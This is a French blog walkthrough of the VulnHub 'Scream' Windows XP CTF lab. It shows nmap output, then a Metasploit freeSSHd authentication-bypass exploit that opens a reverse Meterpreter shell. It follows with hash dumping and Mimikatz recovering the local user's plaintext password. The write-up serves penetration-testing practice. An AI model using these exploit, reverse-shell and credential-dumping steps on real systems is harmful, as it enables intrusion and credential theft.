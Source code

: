 # Solution du CTF Scream

Nitro
-----

Une mise à jour vers [Metasploit 4.9](https://community.rapid7.com/community/metasploit/blog/2014/03/26/new-metasploit-49-helps-evade-anti-virus-solutions-test-network-segmentation-and-increase-productivity-for-penetration-testers) et on est reparti !  

Comme pour le [CTF Bobby 1](http://devloop.users.sourceforge.net/index.php?article74/solution-du-ctf-bobby-1) on a affaire à un CTF Windows qui passe par la personnalisation d'un ISO de XP SP3.  

Par conséquent allez faire un tour sur mon précédent article pour la mise en place.  

Ici l'objectif [du challenge Scream](http://vulnhub.com/entry/devrandom_scream,47/) est d'obtenir le mot de passe de l'utilisateur local.  

*Nmap* révèle la présence de différents services :  

```plain
Nmap scan report for 192.168.1.22
Host is up (0.00029s latency).
Not shown: 996 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     WAR-FTPD 1.65 (Name Scream XP (SP2) FTP Service)
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x 1 ftp ftp              0 Mar 29 14:35 bin
| drwxr-xr-x 1 ftp ftp              0 Mar 29 14:35 log
|_drwxr-xr-x 1 ftp ftp              0 Mar 29 14:35 root
|_ftp-bounce: bounce working!
22/tcp open  ssh     WeOnlyDo sshd 2.1.3 (protocol 2.0)
| ssh-hostkey: 1024 2c:23:77:67:d3:e0:ae:2a:a8:01:a4:9e:54:97:db:2c (DSA)
|_1024 fa:11:a5:3d:63:95:4a:ae:3e:16:49:2f:bb:4b:f1:de (RSA)
23/tcp open  domain  ISC BIND login
80/tcp open  http    Tinyweb httpd 1.93
|_http-methods: No Allow or Public header in OPTIONS response (status code 403)
|_http-title: The Scream - Edvard Munch
MAC Address: 08:00:27:78:63:1B (Cadmus Computer Systems)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Microsoft Windows 2000|XP
OS CPE: cpe:/o:microsoft:windows_2000::sp4 cpe:/o:microsoft:windows_xp::sp2 cpe:/o:microsoft:windows_xp::sp3
OS details: Microsoft Windows 2000 SP4, Microsoft Windows XP SP2 or SP3
Network Distance: 1 hop
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Le serveur web a juste une page d'index avec un ascii-art qui reprends le fameux [Cri d'Edvard Munch](http://fr.wikipedia.org/wiki/Le_Cri) (parenthèse culturelle il parait que c'est la tableau le plus cher au monde...)  

A part ça rien à voir de ce côté.  

Je me suis intéressé au serveur FTP qui permet les connexions en anonymous. Aucun droit n'est donné quand on s'y connecte (les fichiers ne sont pas lisibles), aussi j'ai tenté d'exploiter la faille dans cette version de *WAR-FTPD*.  

*Metasploit* dispose en effet d'un exploit baptisé *"War-FTPD 1.65 Username Overflow"* qui compte XP SP3 dans les plateformes supportées. Ça semblait prometteur mais malgré tous mes essais, rien à faire. *Metasploit* a indiqué par moment que l'exploit a aboutit mais rien sur notre port d'écoute qui attend un reverse-shell :(   

J'ai remarqué lors de la personnalisation de l'ISO par *AutoIt* une fenêtre *AVG* qui pourrait être la cause de ce problème. Mais même en jouant avec les différents payloads, encodeurs et options avancées (*show advanced*) toujours pas de shell :(  

G0t syst3m ?
------------

Je me suis alors rabatu sur le serveur SSHD : j'ai trouvé [un exploit de KingCope](http://www.exploit-db.com/exploits/23080/) pour une faille permettant de bypasser l'authentification.  

L'exploit consiste à récupérer et modifier un client SSH ([5.8p2](https://launchpad.net/openssh/main/5.8p2)) mais après avoir testé plusieurs noms d'utilisateurs, force est de constater que ça ne marchait pas.  

Je me suis bêtement rendu compte en fouillant un peu plus que *Metasploit* disposait aussi d'un exploit pour la même vulnérabilité :  

```plain
msf exploit(freesshd_authbypass) > show options

Module options (exploit/windows/ssh/freesshd_authbypass):

   Name       Current Setting                                                   Required  Description
   ----       ---------------                                                   --------  -----------
   RHOST      192.168.1.22                                                      yes       The target address
   RPORT      22                                                                yes       The target port
   USERNAME                                                                     no        A specific username to try
   USER_FILE  /data/metasploit-4.9/apps/pro/msf3/data/wordlists/unix_users.txt  yes       File containing usernames, one per line

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (accepted: seh, thread, process, none)
   LHOST     192.168.1.3      yes       The listen address
   LPORT     9999             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Freesshd <= 1.2.6 / Windows (Universal)

msf exploit(freesshd_authbypass) > exploit

[*] Started reverse handler on 192.168.1.3:9999 
[*] Trying username '4Dgifts'
[*] Trying username 'EZsetup'
[*] Trying username 'OutOfBox'
[*] Trying username 'ROOT'
[*] Trying username 'adm'
[*] Trying username 'admin'
[*] Uploading payload, this may take several minutes...
[*] Sending stage (769536 bytes) to 192.168.1.22
[*] Meterpreter session 1 opened (192.168.1.3:9999 -> 192.168.1.22:1072) at 2014-03-29 16:59:54 +0100

meterpreter > ps

Process List
============

 PID   PPID  Name                            Arch  Session     User                          Path
 ---   ----  ----                            ----  -------     ----                          ----
 0     0     [System Process]                      4294967295                                
 4     0     System                          x86   0           NT AUTHORITY\SYSTEM           
 236   636   alg.exe                         x86   0           NT AUTHORITY\LOCAL SERVICE    C:\WINDOWS\System32\alg.exe
 384   4     smss.exe                        x86   0           NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 456   412   explorer.exe                    x86   0           SCREAM\alex                   C:\WINDOWS\Explorer.EXE
 568   384   csrss.exe                       x86   0           NT AUTHORITY\SYSTEM           \??\C:\WINDOWS\system32\csrss.exe
 592   384   winlogon.exe                    x86   0           NT AUTHORITY\SYSTEM           \??\C:\WINDOWS\system32\winlogon.exe
 636   592   services.exe                    x86   0           NT AUTHORITY\SYSTEM           C:\WINDOWS\system32\services.exe
 648   592   lsass.exe                       x86   0           NT AUTHORITY\SYSTEM           C:\WINDOWS\system32\lsass.exe
 804   636   svchost.exe                     x86   0           NT AUTHORITY\SYSTEM           C:\WINDOWS\system32\svchost.exe
 828   980   wscntfy.exe                     x86   0           SCREAM\alex                   C:\WINDOWS\system32\wscntfy.exe
 884   636   svchost.exe                     x86   0           NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\svchost.exe
 980   636   svchost.exe                     x86   0           NT AUTHORITY\SYSTEM           C:\WINDOWS\System32\svchost.exe
 1036  636   svchost.exe                     x86   0           NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\svchost.exe
 1060  636   svchost.exe                     x86   0           NT AUTHORITY\LOCAL SERVICE    C:\WINDOWS\system32\svchost.exe
 1224  1292  aCwFw.exe                       x86   0           NT AUTHORITY\SYSTEM           C:\WINDOWS\TEMP\aCwFw.exe
 1268  636   spoolsv.exe                     x86   0           NT AUTHORITY\SYSTEM           C:\WINDOWS\system32\spoolsv.exe
 1492  592   logon.scr                       x86   0           SCREAM\alex                   C:\WINDOWS\System32\logon.scr
 1556  636   FileZilla server.exe            x86   0           NT AUTHORITY\SYSTEM           C:\Program Files\FileZilla Server\FileZilla Server.exe
 1588  636   FreeSSHDService.exe             x86   0           NT AUTHORITY\SYSTEM           C:\Program Files\freeSSHd\FreeSSHDService.exe
 1740  636   OpenTFTPServerMT.exe            x86   0           NT AUTHORITY\SYSTEM           C:\OpenTFTPServer\OpenTFTPServerMT.exe
 1792  456   FileZilla Server Interface.exe  x86   0           SCREAM\alex                   C:\Program Files\FileZilla Server\FileZilla Server Interface.exe

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > run post/windows/gather/hashdump

[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 24198fa48ad44c4d77fb0d536e590e53...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

No users with password hints on this system

[*] Dumping password hashes...

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:2bf1928be3d38ac3cd7fe0c29e77fe10:62a47ba71ff4351f45933a18ccfb6db4:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:9218eb1721cfcff146867f9d715fa8df:::
alex:1003:aad3b435b51404eeaad3b435b51404ee:504182f8417ed8557b67e96adc8b4d04:::
```

Aïe, la compatibilité lanman semble avoir été désactivée (on voit pour les hashs LM des *aad3*... qui correspondent à une chaîne vide).  

A tout hazard on lance *John The Ripper* mais après quelques minutes on se dit que ce n'est pas la peine d'insister :(   

Finalement je tombe [sur cet article](http://www.securityartwork.es/2013/06/04/mimikatz-extension-for-metasploit/?lang=en) qui parle du module *Mimikatz* dans *Metasploit*. Mettons en application :  

```plain
meterpreter > load mimikatz
Loading extension mimikatz...success.

meterpreter > kerberos
[+] Running as SYSTEM
[*] Retrieving kerberos credentials
kerberos credentials
====================

AuthID   Package    Domain        User             Password
------   -------    ------        ----             --------
0;999    NTLM       WORKGROUP     SCREAM$          
0;997    Negotiate  NT AUTHORITY  LOCAL SERVICE    
0;25771  NTLM                                      
0;996    Negotiate  NT AUTHORITY  NETWORK SERVICE  
0;34724  NTLM       SCREAM        alex             thisisaverylongpassword
```

Effectivement c'est plus rapide :p   


*Published March 29 2014 at 17:39*